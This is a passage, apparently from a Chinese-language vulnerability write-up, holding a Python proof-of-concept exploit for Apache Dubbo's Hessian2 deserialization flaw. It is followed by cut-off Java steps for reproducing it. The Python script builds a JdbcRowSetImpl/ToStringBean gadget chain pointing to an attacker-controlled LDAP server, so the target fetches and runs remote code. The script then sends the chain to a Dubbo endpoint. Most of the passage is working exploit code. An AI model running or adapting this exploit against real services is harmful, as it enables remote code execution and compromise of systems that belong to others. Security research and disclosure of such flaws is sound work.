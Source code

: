 ```python
# -*- coding: utf-8 -*-
# Ruilin
# pip3 install dubbo-py
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient
 
client = DubboClient('192.168.2.1', 12345)
 
JdbcRowSetImpl=new_object(
    'com.sun.rowset.JdbcRowSetImpl',
    dataSource="ldap://192.168.2.2:1389/nnyvbt",
    strMatchColumns=["foo"]
    )
JdbcRowSetImplClass=new_object(
    'java.lang.Class',
    name="com.sun.rowset.JdbcRowSetImpl",
    )
toStringBean=new_object(
    'com.rometools.rome.feed.impl.ToStringBean',
    beanClass=JdbcRowSetImplClass,
    obj=JdbcRowSetImpl
    )
 
resp = client.send_request_and_return_response(
    service_name='any_name',
    method_name='any_method',
    args=[toStringBean])
    
print(resp)
```



### java版本

1. `DemoService`增加接口方法

    ```java
    String rceTest(Object o);
    ```

2. `DefaultDemoService`实现接口方法

    ```java
    @Override
    public String rceTest(Object o) {
        return "pwned";
    }
    ```

3. `DubboAutoConfigurationConsumerBootstrap`客户端增加调用

    ```java
    public ApplicationRunner runner() throws Exception {
        Object o = getPayload();
        return args -> logger.info(demoService.rceTest(o));
    }
    